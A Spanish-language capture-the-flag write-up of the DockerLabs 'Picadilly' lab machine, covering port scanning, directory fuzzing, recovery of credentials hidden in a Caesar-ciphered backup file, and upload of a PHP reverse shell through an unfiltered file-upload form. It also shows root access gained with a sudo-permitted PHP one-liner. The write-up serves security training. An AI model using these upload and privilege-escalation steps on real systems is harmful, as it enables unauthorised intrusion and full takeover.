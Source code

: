 # Informe Técnico - Máquina Picadilly (DockerLabs)

**Dificultad:** Fácil
**Objetivos:** Acceso inicial a la máquina, explotación de vulnerabilidades web, escalada de privilegios a root.

---

## 1. Despliegue de la Máquina

Descargamos la máquina vulnerable `picadilly.zip` desde la página oficial de DockerLabs. Para descomprimir el archivo utilizamos el siguiente comando:

```bash
7z e picadilly.zip
```

Luego desplegamos la máquina ejecutando:

```bash
sudo bash auto_deploy.sh picadilly.tar
```

![Logo](/Picadilly/Imagenes/Logo.png)
![Inicio del despliegue](/Picadilly/Imagenes/Inicio.jpeg)

Verificamos que la máquina esté activa con un simple `ping`:

```bash
ping -c1 172.17.0.2
```

![Comprobación de conectividad](/Picadilly/Imagenes/Ping.jpeg)

---

## 2. Reconocimiento con Nmap

Realizamos un escaneo completo de puertos con Nmap para identificar servicios activos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Puertos detectados](/Picadilly/Imagenes/Puertos.jpeg)

Después, utilizamos un script personalizado para extraer los puertos abiertos y la IP objetivo:

```bash
extractPorts allPorts.txt
```

Con los puertos relevantes, hacemos un escaneo más detallado para identificar servicios y versiones:

```bash
nmap -sC -sV -p 80,443 172.17.0.2 -oN target.txt
```

![Servicios detectados](/Picadilly/Imagenes/Servicios.jpeg)

---

## 3. Análisis de las Aplicaciones Web

Accedemos a la interfaz web en el puerto **80 (HTTP)** mediante:

```
http://172.17.0.2/
```

En esta página encontramos un archivo visible llamado `backup.txt`.

![Vista del puerto 80](/Picadilly/Imagenes/http.jpeg)
![Contenido de backup.txt](/Picadilly/Imagenes/backup.jpeg)

Este archivo contenía un acertijo cifrado con el método César. Tras descifrarlo, obtuvimos la palabra clave:

```
gcuaetzcba
```

En el archivo también encontramos credenciales:
**Usuario:** mateo
**Contraseña:** hdvbfuadcb

Accedemos al puerto **443 (HTTPS)** en:

```
https://172.17.0.2/
```

Allí se presenta una página con un sistema de publicación de posts y una funcionalidad de subida de archivos (upload).

![Página HTTPS con funcionalidad de Upload](/Picadilly/Imagenes/Pagina.jpeg)

---

## 4. Fuzzing de Directorios

Usamos herramientas de fuerza bruta para buscar rutas ocultas.

Primero con **Gobuster** en el puerto 80:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

El único archivo interesante encontrado fue `backup.txt`.

Probamos también hacer fuzzing dentro de `/backup.txt`, pero sin resultados:

```bash
gobuster dir -u http://172.17.0.2/backup.txt -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

![Resultado de Gobuster](/Picadilly/Imagenes/gobuster.jpeg)

Para el puerto 443 usamos **Wfuzz** debido a problemas con Gobuster:

```bash
wfuzz -c -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 https://172.17.0.2/FUZZ
```

Encontramos que la ruta `/uploads/` estaba habilitada.

![Wfuzz detectando el directorio de subida](/Picadilly/Imagenes/wfuzz.jpeg)
![Directorio /uploads encontrado](/Picadilly/Imagenes/uploads.jpeg)

---

## 5. Obtención de Acceso con Reverse Shell

Dado que existía una opción de subir archivos en la sección de posts, intentamos subir una *reverse shell* en PHP.

El archivo fue descargado desde el repositorio de [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell).

Para evitar restricciones de extensiones, renombramos el archivo como `.phar`. Sorprendentemente, el sistema permitía la subida sin restricción.

![Subida de archivo PHP](/Picadilly/Imagenes/post.jpeg)
![Archivo reverse shell subido exitosamente](/Picadilly/Imagenes/revellshe.jpeg)

Colocamos nuestro host en modo escucha con:

```bash
sudo nc -lvnp 443
```

Y accedimos a la shell mediante:

```
https://172.17.0.2/uploads/reverse.phar
```

¡La conexión fue exitosa!

![Shell remota activa](/Picadilly/Imagenes/shell.jpeg)

---

## 6. Escalada de Privilegios

Ya dentro del sistema, buscamos métodos para escalar privilegios.

Primero ejecutamos:

```bash
sudo -l
```

No se encontró nada útil, por lo que nos dirigimos al directorio `/home`, donde confirmamos que el usuario `mateo` existía.

Probamos autenticarnos como `mateo` con la contraseña que encontramos en el archivo `backup.txt`, ahora ya descifrada:

```
su mateo
Contraseña: easycrazy
```

Al entrar como `mateo`, volvimos a revisar sudo:

```bash
sudo -l
```

Salida:

```
(ALL) NOPASSWD: /usr/bin/php
```

Esto nos dio acceso total. Ejecutamos el siguiente comando para obtener una shell como root:

```bash
sudo /usr/bin/php -r 'system("/bin/bash");'
```

![Acceso root conseguido](/Picadilly/Imagenes/root.jpeg)

---

## Conclusión

Esta máquina presenta una ruta de explotación sencilla pero completa: detección de credenciales en un archivo público, un sistema de subida vulnerable sin filtros, y una mala configuración de `sudo` que permite ejecución de comandos como root mediante PHP. Es ideal para entender fallos típicos en seguridad web y escalada de privilegios basada en configuraciones inseguras.


